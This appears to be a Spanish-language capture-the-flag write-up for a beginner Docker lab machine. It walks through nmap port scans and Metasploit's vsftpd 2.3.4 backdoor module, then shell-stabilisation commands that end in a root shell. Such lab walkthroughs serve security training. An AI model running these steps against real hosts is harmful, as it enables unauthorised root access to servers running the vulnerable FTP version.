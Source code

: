 # Tproot (muy fácil)


## Escaneo de puertos

Empezamos escaneando la máquina víctima con **nmap** para ver los puertos que tenga abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```
Aquí está el desglose de cada opción:

* ``nmap`` → Es la herramienta que realiza el escaneo de puertos y redes.

* ``-p-`` → Escanea todos los puertos (0-65535).

* ``--open`` → Muestra solo los puertos que están abiertos.

* ``-sT`` → Realiza un escaneo de conexión TCP completa (TCP Connect Scan). Es más lento que el SYN scan (-sS), pero no requiere privilegios de root.

* ``--min-rate 5000`` → Exige que el escaneo se realice con una tasa mínima de 5000 paquetes por segundo, acelerando el proceso.

* ``-vvv`` → Muestra un nivel de detalle muy alto en la salida (modo verbose máximo).

* ``-n`` → No resuelve nombres de dominio (evita consultas DNS).

* ``-Pn`` → No realiza detección de host, asumiendo que el objetivo está activo.

* ``172.17.0.2`` → La dirección IP del objetivo a escanear.

* ``-oG allPorts`` → Guarda la salida en un archivo de texto llamado *allPorts*. **(OPCIONAL)**

![resultado del comando](../assets/tproot/nmap.png)

Parece que están abiertos el puerto **ftp** y el **http**. Vamos a escanearlos a fondo.

```shell
nmap -sCV -p21,80 172.17.0.2 -oN targeted
```
Aquí está el desglose de cada opción:

* ``nmap`` → Es la herramienta que realiza el escaneo de puertos y redes.

* ``-sC`` → Ejecuta los scripts de detección predeterminados de **nmap** (--script=default). Estos incluyen comprobaciones de vulnerabilidades, autenticación anónima en FTP, etc.

* ``-sV`` → Detecta versiones de los servicios en ejecución en los puertos abiertos.

* ``-p21,80`` → Escanea los puertos 21 (FTP) y 80 (HTTPS).

* ``172.17.0.2`` → La dirección IP del objetivo a escanear.

* ``-oN targeted`` → Guarda la salida en un archivo de texto llamado *targeted*. **(OPCIONAL)**

![resultado del comando](../assets/tproot/nmap2.png)

Parece que la página en el puerto 80 es la predeterminada de apache2, por lo que no nos interesa. En cambio, el puerto 21 parece igual que el de la [primera máquina](./firsthacking.md), con una versión de **FTP vulnerable**. Vamos al lío.
***

## Ataque

Como ya sabemos que la versión 2.3.4 de vsftpd es vulnerable y que el exploit se encuentra en Metasploit, nos ahorraremos unos pasos.
> Nota: Si todavia no has atacado la [primera máquina que documenté](./firsthacking.md), te recomiendo hacerlo para entender los pasos a continuación.

Abrimos la consola de **Metasploit**.

```shell
msfconsole
```

![resultado del comando](../assets/firsthacking/msfconsole.png)

> Nota: puedes utilizar ``msfconsole -q`` para iniciar en modo silencioso (que no aparezcan mensajes).

Una vez dentro, buscamos el exploit.

```shell
search vsftpd 2.3.4
```

![resultado del comando](../assets/firsthacking/search.png)

Usamos la opción 0.

```shell
use 0
```

![resultado del comando](../assets/firsthacking/use.png)

Aquí llegamos a la parte donde hacemos algo diferente a la [primera máquina](./firsthacking.md). En vez de usar el comando ``info`` para ver toda la descripción del exploit y luego buscar donde se indican las variables a las que hay que dar valor, podemos utilizar el comando ``show`` para mostrar la información directamente.

```shell
show options
```

![resultado del comando](../assets/tproot/show.png)

Utilizamos ``set`` para darle valor a las variables.

```shell
set RHOSTS 172.17.0.2
```

Para volver a iniciar el exploit ya solamente hace falta escribir ``exploit``.

```shell
exploit
```

![resultado del comando](../assets/firsthacking/exploit.png)

***

## Extra

Te habrás dado cuenta que al estar en la shell, la terminal aparece "vacía". Esto se debe a que necesita tratamiento. Para ello, ejecuta los siguientes comandos:

```shell
script /dev/null -c bash
stty raw -echo
reset xterm
export TERM=xterm
export SHELL=/bin/bash
```

¡Y ya estaría! Si haces ``whoami`` podrás ver como eres **root** :).